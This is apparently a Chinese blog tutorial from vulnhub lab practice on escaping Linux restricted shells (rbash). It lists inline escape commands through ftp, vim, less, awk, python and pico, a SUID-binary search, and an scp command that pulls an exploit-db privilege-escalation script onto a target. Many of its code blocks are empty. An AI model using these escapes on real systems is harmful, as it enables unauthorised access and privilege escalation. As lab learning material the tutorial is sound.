


0x01 前言
本文的产生也是在刷vulnhub靶场的时候遇到的，由于自身太菜，因此可以看到本文的知识都是cv的┭┮﹏┭┮，自己的想法很少的，也就实操那一部分会跟着做做，还请见谅~~
0x02 rbash简述
1、什么是rbash
它与一般shell的区别在于会限制一些行为，让一些命令无法执行
2、如何设置一个rbash
1 | |
3、使用场景
Linux Restricted Shell是一种限制命令(如：cd、ls、echo等)、阻止环境变量（如：shell、path、user），甚至于阻止管道/重定向（如：>，>>，|）的shell。
常见的Linux Restricted Shell有rbash、rksh、rsh。
Linux Restricted Shell有如下场景使用
1 | |
0x03 信息搜集
这里我们主要是通过信息搜集来确定当下的rbash环境下可以执行那些命令，以及环境信息。
1 | |
通过以上操作,我们已收集到一些有用的信息，接下来尝试一下通用的利用方法。
0x04 常用逃逸命令
1 | |
4.1 如果允许使用“/”
则可以运行/bin/sh、/bin/bash
4.2 如果允许使用cp命令
则可以复制/bin/sh到当前目录，不过这里我没有复现成功cp /bin/bash，应该是环境条件不允许吧。—下面有补充

4.3 使用ftp进行命令执行
执行 !/bin/sh

如上图所示的ftp命令
4.4 使用gdb进行命令执行
执行 !/bin/sh
不过前提就是该环境下有gdb环境
4.5 使用more/man/less进行命令执行
执行 !/bin/sh

这里那些文章介绍的不清楚，我复现了一下发现还是需要某种条件：也就是你当前目录下有足够大的内容的文本，这样more读取的时候才会体现出分页读取的效果，进而你可以直接输入!/bin/sh


如图less不必非得读取内容多的文件

man似乎直接输入man man即可
4.6 使用vim进行命令执行
执行 !/bin/sh
4.7 使用rvim执行python
python import os; os.system("/bin/bash")
这里不知为何提示我在rvim中无法执行shell命令/禁止使用命令。
但也可能是我不会操作吧。。。。
4.8 使用scp传入自己的脚本
这里未复现
1 | |
目标机器连接 kali 利用 ssh 将 exp 下载到靶机上来
scp >root@192.168.26.20:/usr/share/exploitdb/exploits/linux/local/46996.sh /tmp/ #靶机上执行 用户名和 IP 是 kali 的
scp /path/local_filename username@IP:/path #kali 上执行 用户名和 IP 是靶机的
涉及到的提权方式：
**Tips：**拿到一个本地普通用户后，往往先要在该用户的家目录下搜索一番，以寻找有用的信息，提权的时候几乎所有的文件操作都在 tmp 目录下，因为其他目录往往没有权限，所以要时刻注意自己当前所在的目录。
find / -user root -perm -4000 -print 2>/dev/null #发现具有 suid 权限的命令
4.9 使用awk命令执行
执行awk 'BEGIN {system("/bin/sh or /bin/bash")}'
不过这里更推荐使用一种，我这个环境不知为何使用不了bash，估计是我之前修改了吧
1 | |
4.10 使用find执行命令

这里也是使用其中一个
这里看了几篇文章，我再补充一下上述的cp命令：
4.11 补充
1、cp /bin/bash到本地用户目录
1 | |

执行：git > git help status --这里说git也可，但我没有找到方法
2、set shell
DC-2靶机使用它成功了
- 在一些编辑器中可以设置shell变量然后执行，如vim中
1 | |
3、更改PATH或SHELL环境变量
1 | |

0x05 编程语言逃逸
5.1 Python
1 | |
5.2 PHP
1 | |
5.3 perl
1 | |
5.4 lua
1 | |
5.5 Ruby
1 | |
5.6 except
1 | |
不过这些编程语言的用法未曾复现，我发现在kali上输入的时候没反应，估计是环境不匹配吧。暂作记录
0x06 高级技术
6.1 ssh
1 | |
6.2 zip
1 | |
6.3 tar
1 | |
6.4 pico
1 | |

这里复现了一波，步骤为直接输入pico -s "/bin/bash"，然后按ctrl+o会让你编写文件名，文件名随意写，接着按ctrl+t，然后执行你想要的命令如whoami，id等等即可
6.5 环境变量修复
获取到的Shell，环境变量可能会缺失，在这里可以通过如下命令进行修复
1 | |
0x07 简单实战
7.1 创建测试用户
使用具有sudo特权的用户创建一个新测试用户
1 | |

这里密码为123456
7.1.1 为新用户建立目录
1 | |

7.1.2 指定用户可以运行的命令
为用户指定可以运行的命令，创建指向新建目录链接。指定用户可以运行mkdir``ls``ping
1 | |
7.2 rbash逃逸
7.2.1 切换用户时逃逸
这里的原理涉及到su 和 su- 的区别：
1 | |

逃逸：
1 | |

这里我并未复现成功，就先看个图吧
7.2.2 ssh登录时逃逸
（借助-t远程在远程机器上运行脚本）
1 | |
7.2.3 当前shell中逃逸
7.2.3.1 特殊情况
[1] / 被允许的情况下；直接 /bin/sh 或 /bin/bash
[2]能够设置PATH或SHELL时
1 | |
[3]权限足够时
1 | |
7.2.4 利用系统常见应用逃逸
1 | |

7.2.5 利用用户安装应用逃逸
1、ed-editor
1 | |
2、git
1 | |
3、zip
1 | |
4、tar
1 | |
7.2.6 利用编程语言环境绕过
1、python
1 | |

这里也是解密了，原来是在真实情况下才可以。。。
2、php
1 | |
这里仍未复现成功，它提示我语法错误？？？不理解
使用PHP反弹设shell绕过
1 | |
3、perl
1 | |

4、lua
1 | |

同PHP。。。估计真是语法问题？
5、ruby
1 | |

6、expect
1 | |
0x08 tips:
8.1 比rbash更容易遇到的问题是当前路径异常问题
1 | |
8.2 不能使用 > ，>>等字符重定向写文件：echo ‘script code’ | tee scriptfile
8.3 su切换用户逃逸时还可以在切换用户时执行spawn shell命令
1 | |
8.4 ssh 登录时同样可以通过spawn shell逃逸
1 | |
8.5 编程语言绕过的利用，还可以使用反弹shell到我们攻击机的方式进行逃逸，以python为例：
1 | |
8.6 上边用的比较多的是 !/bin/sh 和 !/bin/bash;其实还有一个 !‘sh’ —>由于没有了 ‘/’ ；有时候能够达到很好的绕过效果
8.7 同理在路径正确的情况下，在当前rbash中直接输入 sh 也能够完成逃逸( !/bin/sh 和 !/bin/bash 逃逸失败报错同[6] )
0x09 总结
这次也就是简单的演示了一下各种情况，毕竟环境配置也很难很烦，因此就草草了事，只需要记得有这些姿势即可，在实战时遇到问题在对应解决。
上述这些逃逸方式应用到其他类型的restricted shell中也是可以的，由于不同系统特性不同，逃逸的方式也有很大差异；再就是用户限制的宽松程度不同，我们能够逃逸的方式也不同；用户安装的git、tar、zip等应用也能够给予很大的帮助；总之就是要多尝试，灵活应用！！！
0x10 参考文章
【安全】Linux Restricted Shell 绕过指南
[渗透技巧——如何逃逸Linux的受限制shell执行任意命令 ]
Restricted Bash绕过技巧 --建立rbash环境可参考